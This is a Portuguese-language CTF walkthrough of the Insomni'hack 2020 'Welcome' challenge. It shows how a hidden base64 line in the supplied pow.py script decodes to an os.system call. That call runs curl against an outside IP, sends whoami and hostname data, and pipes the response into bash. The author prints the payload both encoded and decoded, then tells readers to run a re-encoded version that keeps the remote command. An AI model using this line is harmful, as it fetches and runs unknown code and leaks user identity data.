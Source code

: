 # Welcome

Essa foi a Chall inicial do CTF que, apesar de ser um pouco mais complexas que as demais "Welcome's", vamos ver que não tem nada de complicado.

Primeiro vamos ver o anúncio da Chall
![description](images/description.png)

Então aqui, temos um arquivo chamado `pow` para baixar e um alvo que podemos acessar via Netcat (nc welcome.insomnihack.ch 1337).

Primeiro vamos executar o comando no terminal e vermos a saida
```bash
nc welcome.insomnihack.ch 1337
```
![netcat](images/netcat.png)

O script está nos pedindo um hash MD5 em que a inicial seja `92cea2` (esse valor á alterado a cada vez que executamos o script).

Bom, vamos então fazer um code review no arquivo que foi disponibilizado.

![pow.py](images/pow.py.png)

Vendo rapidamente o código, podemos notar que esse script em python está gerando hashes em números sequenciais, até achar um número que tenha a inicial como esperamos. Vamos então executar esse script passando como parâmentro, a inicial que nos foi passada (92cea2).
```bash
python pow.py 92cea2
```
Depois de esperar por alguns poucos minutos, o script conseguiu me retornar o hash de algum número que, em MD5 tenha a mesma inicial que esperamos. Então vamos inserir o valor e... Ops, algo deu errado! Mal deram um start no ano de 2020 e já estou no "Wall of Shame". É um belo jeito de começar o ano não?

![shame](images/shame.png)

Precisamos fazer um code review mais detalhado para acharmos essa solução. O único ponto realmente estranho nesse código, sem dúvidas é esse base64 na linha 18. Vamos verificar o seu conteúdo com o comando:
```bash
echo 'Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp' | base64 -d
```

![base64_decode](images/base64_decode.png)

Vamos pensar juntos... O retorno do número que nos dará uma hash válida, está na variável `i`, porém o base64 irá incrementar o valor de `1337` no valor de  `i`. Essa valor (1337) foi adicionado somente como uma forma de enganar "olhos desatentos", já que é o mesmo número da porta que estamos acessando o host.

Realizar uma alteração nesse script é fácil, iremos executar o seguinte comando para remover o `i+=1337` e converter em base64:
```bash
echo -n 'global i;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)' | base64
```

![fix_base64](images/fix_base64.png)

---
**ATENÇÃO:** A saída do base64 está quebrado em algumas linhas, porém o seu valor original deve ficar somente em uma única linha e sem espaços. 

---

Agora que temos nosso base64 correto, vamos editar o arquivo `pow.py` na linha `18` e substituí-lo pelo encode correto.

Feito isso, só precisamos executar novamente o comando `nc welcome.insomnihack.ch 1337` e em outro terminal, executar o arquivo `pow.py`.

![flag](images/flag.png)

Bazinga! Capturamos nossa Flag.
Espero ter te ajudado em algo!

Abs...
